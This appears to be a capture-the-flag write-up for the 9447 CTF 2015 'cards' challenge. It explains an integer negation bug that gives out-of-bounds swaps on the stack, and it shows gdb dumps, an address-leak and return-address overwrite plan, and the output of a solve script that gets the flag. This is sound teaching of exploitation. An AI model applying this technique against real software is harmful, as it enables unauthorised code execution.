

# 9447 CTF 2015: cards

**Category:** Exploitation
**Points:** 140
**Solves:** 45
**Description:**

> We have released a new card game! If you win, you get a flag.
> 
> Check it out at cards-6xvx9tsi.9447.plumbing port 9447
> 
> [cards.tar.gz](./cards-0a8ad59b78ee1f72c4739f69d598fcd8.tar.gz)  0a8ad59b78ee1f72c4739f69d598fcd8


## Write-up

by [polym](https://github.com/abpolym)

This writeup is based on following writeups:

* <https://github.com/pwning/public-writeup/tree/master/9447ctf2015/pwn140-cards> (Common and detailed understanding)
* <https://gist.github.com/xyzz/9a5511ffa1ade17e7359#file-02-exploit-02-cards-md> (Terminology, more understanding)
* <https://www.whitehatters.academy/9447-ctf-exploit-cards/> (Thought process)
* <https://wiki.inpt.fr/ctf:public:9447:cards> or <https://pony7.fr/ctf:public:9447:cards> (Print gdb stack at shuffle)
* <http://secgroup.github.io/2015/11/30/9447ctf2015-writeup-cards/> (Two complement, coolest exploit script)
* <http://andrewdutcher.com/helium/9447-15-writeup/index.html> (More detailed understanding)

### Meta

Keywords:

* Integer Overflow `io` (or Underflow?)

We are given a gzipped tar archive containing the following

* A x86-64bit non-stripped ELF for Linux named `cards`:
```bash
$ file cards
cards: ELF 64-bit LSB  shared object, x86-64, version 1 (SYSV), dynamically linked (uses shared libs), for GNU/Linux 2.6.24, BuildID[sha1]=7bce28e26cfcb1a331fae514e91b54a855e610e1, not stripped
```
* C Source Code for the provided binary named [`cards.c`](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c)
* A Makefile to create said binary by compiling `cards.c`

The first thing that we do is have a look at the source code to see that we have to provide a flag file named `flag.txt`: `echo '9447{ThE_Only_w1nn1Ng_M0ve_1S_t0_stEAl_The_flAg}' > flag.txt`.

Running the binary:

```bash
$ ./cards 
Lets play a game!
Enter up to 52 cards (0 to stop):
1337
42
1
2
0
Here are your cards left:
1 2 1337 42 
Enter the index of the card to play:
2
You played 1337, I played 1
You won!
Here are your cards left:
1 2 (-) 42 
Enter the index of the card to play:
1
You played 2, I played 42
I won!
Here are your cards left:
1 (-) (-) 42 
Enter the index of the card to play:
3
You played 42, I played 1337
I won!
Here are your cards left:
1 (-) (-) (-) 
Enter the index of the card to play:
0
You played 1, I played 2
I won!
You got 1, I got 3
You didn't win, try harder next time :)
Lets play a game!
Enter up to 52 cards (0 to stop):
0
You need at least 1 card!
```

We can provide up to `52` cards, which are then shuffled using the [`shuffle`](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c#L15-L28) function. After that, we can - in multiple rounds - pick cards by their index and whoever chooses the higher card wins.
If you win more rounds than the `cards` AI, `printFlag` is called.

However, you never can win, since the AI always chooses the [next higher card (if possible) in a sorted array](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c#L79).
This leads us to the conclusion that we have to either find a vulnerability to get `RIP` control or call `printFlag()` in some other way.

To know which kind of vulnerabilities are possible, we have a look at `checksec`:

```bash
gdb-peda$ checksec 
CANARY    : ENABLED
FORTIFY   : ENABLED
NX        : ENABLED
PIE       : ENABLED
RELRO     : FULL
```

Well... Everything is enabled and we guess ASLR is enabled, too. Looks difficult.

However, having a closer look at the `shuffle` function, we notice something interesting:

* At lines [`19-21`](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c#L19-L21), it is checked if our given card value `val` - a `long long` - is negative. If so, it is inverted.
* At lines [`24-26`](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c#L24-L26), the deck values at `deck[val%size]` and `deck[(i+1)%size]` are swapped

If you know how Two's complement work, you'll know that inverting [most negative number](https://en.wikipedia.org/wiki/Two%27s_complement#Most_negative_number) yields the same number again.

Why?

Let's say you have signed numbers starting from e.g. `-127` with binary representation `0111 1111` to `1` (`0000 0001`), `0` (`0000 0000`) and `-1` (`1111 1111`) to `-128` (`1000 0000`) as depicted in the wikipedia table.
Now if you invert a number with Two's complement, you'll essentially invert each bit of the given number, then add `1`. E.g. for `1`: 

* Invert `0000 0001` -> `1111 1110`
* Add `1`: `1111 1110` -> `1111 1111` (`-1`)

Now, you can invert all numbers from `-127` to `-1` and `1` to `127` without any problems. Inverting `0` works, too:

* Invert `0000 0000` -> `1111 1111`
* Add `1`: `1111 1111` -> `1 0000 0000`
* Throw away any carry bits (since your type can only hold 8 bits in this case): `1 0000 0000` -> `0000 0000` (`0`)

However, you also have `-128`, the most negative number. What happens with this number?

* Invert `1000 0000` -> `0111 1111`
* Add `1`: `0111 1111` -> `1000 0000` (`-128`)

Inverting the most negative number yields the same number again!

This means that `val % size` also becomes negative, creating negative indexes that allow us to access and swap data from outside our deck buffer! I think this is called an Integer Underflow or Overflow - Too lazy right now to look it up TODO :).

So if we provide the most negative number for a long long, so `0x8000 0000 0000 0000` = `-9223372036854775808`, we swap one of our provided numbers with index `-1`, our RIP address - making it one of our cards:

```bash
Lets play a game!
Enter up to 52 cards (0 to stop):
-9223372036854775808
1
2
0
Here are your cards left:
2 140735111657504 -9223372036854775808 
Enter the index of the card to play:
```

Let's set a breakpoint to [right after `shuffle`](https://github.com/pwning/public-writeup/blob/master/9447ctf2015/pwn140-cards/cards.c#L15) with `gdb-peda`:

```bash
gdb-peda$ b *shuffle
Breakpoint 1 at 0xa90
gdb-peda$ r
Starting program: /home/vbox/pwn/tasks/9447/cards 
Lets play a game!
Enter up to 52 cards (0 to stop):
4
5
6
0
[----------------------------------registers-----------------------------------]
RAX: 0x3 
RBX: 0x3 
RCX: 0x10 
RDX: 0x0 
RSI: 0x3 
RDI: 0x7fffffffe280 --> 0x4 
RBP: 0x7fffffffe280 --> 0x4 
RSP: 0x7fffffffe278 --> 0x555555554e62 (<handleRequests+82>:    mov    esi,ebx)
RIP: 0x555555554a90 (<shuffle>: xor    ecx,ecx)
R8 : 0x7ffff7dd4060 --> 0x7ffff7dd0d40 --> 0x7ffff7b9320e --> 0x2e2e00544d470043 ('C')
R9 : 0x7fffffffdd51 --> 0x600000000000000 
R10: 0x0 
R11: 0x0 
R12: 0x5555555548ea (<_start>:  xor    ebp,ebp)
R13: 0x7fffffffe520 --> 0x1 
R14: 0x0 
R15: 0x0
EFLAGS: 0x206 (carry PARITY adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
   0x555555554a7f <readCards+111>:      pop    r13
   0x555555554a81 <readCards+113>:      ret    
   0x555555554a82:      data32 data32 data32 data32 nop WORD PTR cs:[rax+rax*1+0x0]
=> 0x555555554a90 <shuffle>:    xor    ecx,ecx
   0x555555554a92 <shuffle+2>:  test   esi,esi
   0x555555554a94 <shuffle+4>:  movsxd r10,esi
   0x555555554a97 <shuffle+7>:  mov    r8,rdi
   0x555555554a9a <shuffle+10>: jle    0x555555554ad7 <shuffle+71>
[------------------------------------stack-------------------------------------]
0000| 0x7fffffffe278 --> 0x555555554e62 (<handleRequests+82>:   mov    esi,ebx)
0008| 0x7fffffffe280 --> 0x4 
0016| 0x7fffffffe288 --> 0x5 
0024| 0x7fffffffe290 --> 0x6 
0032| 0x7fffffffe298 --> 0x5 
0040| 0x7fffffffe2a0 --> 0xa ('\n')
0048| 0x7fffffffe2a8 --> 0x7fffffffe428 --> 0x0 
0056| 0x7fffffffe2b0 --> 0x7fffffffe400 --> 0x7ffff7fd9740 (0x00007ffff7fd9740)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value

Breakpoint 1, 0x0000555555554a90 in shuffle ()
gdb-peda$ x/20gx $rsp
0x7fffffffe278: 0x0000555555554e62      0x0000000000000004
0x7fffffffe288: 0x0000000000000005      0x0000000000000006
0x7fffffffe298: 0x0000000000000005      0x000000000000000a
0x7fffffffe2a8: 0x00007fffffffe428      0x00007fffffffe400
0x7fffffffe2b8: 0x00007fffffffe460      0x0000000000000000
0x7fffffffe2c8: 0x00007ffff7ffeae8      0x00007ffff7ffe760
0x7fffffffe2d8: 0x00007ffff7de4991      0x0000000000000000
0x7fffffffe2e8: 0x00007fffffffe460      0x0000000000000000
0x7fffffffe2f8: 0x0000000000000000      0x00007fff00000000
0x7fffffffe308: 0x00007ffff7ffe760      0x0000000000000000
```

Looks like the address before our first input (index `0`) is the return address / our `RIP` - index `-1` - at offset `0x00000e62`:



However, if we try to access this address, we also automatically overwrite it, crashing our program. (TODO Didn't happen locally - maybe I am wrong here)

So, we have to find another address that contains our process individual base and calculate the address for `printFlag()` from that to defeat `ASLR` plus `PIE`.

Let's see what indexes we can create (copied from [this writeup](http://secgroup.github.io/2015/11/30/9447ctf2015-writeup-cards/):

```bash
1,  0
 3, -2
 5, -3
 7, -1
 9, -8
17, -9
19, -18
27, -26
29, -12
37, -6
43, -42
47, -36
48, -32
```

Let's have a look at each of these negative indexed:

```bash
0x7fffffffe278: 0x0000555555554e62
gdb-peda$ x/i 0x0000555555554e62
   0x555555554e62 <handleRequests+82>:  mov    esi,ebx
gdb-peda$ x/gx $rsp+0x8-0x8*2
0x7fffffffe270: 0x00007fffffffe520
gdb-peda$ x/gx $rsp+0x8-0x8*3
0x7fffffffe268: 0x00005555555548ea
gdb-peda$ x/i 0x00005555555548ea
   0x5555555548ea <_start>:     xor    ebp,ebp
gdb-peda$ x/gx $rsp+0x8-0x8*6
0x7fffffffe250: 0x0000555555555038
gdb-peda$ x/i 0x0000555555555038
   0x555555555038:      rex.RB outs dx,BYTE PTR ds:[rsi]
gdb-peda$ x/gx $rsp+0x8-0x8*8
0x7fffffffe240: 0x00007ffff7dd4400
gdb-peda$ x/gx $rsp+0x8-0x8*9
0x7fffffffe238: 0x0000555555554a52
gdb-peda$ x/i 0x0000555555554a52
   0x555555554a52 <readCards+66>:       mov    rdx,QWORD PTR [rsp+0x8]
gdb-peda$ x/gx $rsp+0x8-0x8*12
0x7fffffffe1f0: 0x0000000000000001
gdb-peda$ x/gx $rsp+0x8-0x8*18
0x7fffffffe1c0: 0x00007fffffffe300
gdb-peda$ x/gx $rsp+0x8-0x8*26
0x7fffffffe150: 0x00007fff00000000
gdb-peda$ x/gx $rsp+0x8-0x8*32
0x7fffffffe0f0: 0x0000000000000000
gdb-peda$ x/gx $rsp+0x8-0x8*36
0x7fffffffe0d0: 0x00007fffffffe298
gdb-peda$ x/gx $rsp+0x8-0x8*42
0x7fffffffe070: 0x00007fffffffe1c0
```

As we can see, index `-3` points at `_start`, which calls our `__libc_start_main`:


All that is left to do is leak the address for `_start` and thus our base address in a first round, calculate the address for `printFlag()` from that and overwrite `shuffle`'s `RIP` with that address.

[This python script](./solve.py) does the job:

```bash
$ p solve.py 
[+] Started program './cards'
[*] round 1: 1 1 -9223372036854775808 1 140142452812010 
[*] addr_start: 0x7f75751e28ea
[*] addr_printflag: 0x7f75751e2d90
[+] Recieving all data: Done (68B)
[*] Program './cards' stopped with exit code -11
[*] Flag: 9447{ThE_Only_w1nn1Ng_M0ve_1S_t0_stEAl_The_flAg}
```

The flag is `9447{ThE_Only_w1nn1Ng_M0ve_1S_t0_stEAl_The_flAg}`.

## Other write-ups and resources

* <https://github.com/pwning/public-writeup/tree/master/9447ctf2015/pwn140-cards>
* <https://gist.github.com/xyzz/9a5511ffa1ade17e7359#file-02-exploit-02-cards-md>
* <https://www.whitehatters.academy/9447-ctf-exploit-cards/>
* <https://wiki.inpt.fr/ctf:public:9447:cards> or <https://pony7.fr/ctf:public:9447:cards>
* <http://secgroup.github.io/2015/11/30/9447ctf2015-writeup-cards/>
* <http://andrewdutcher.com/helium/9447-15-writeup/index.html>
* <https://kt.pe/blog/2015/12/9447ctf-2015-quals/#cards>
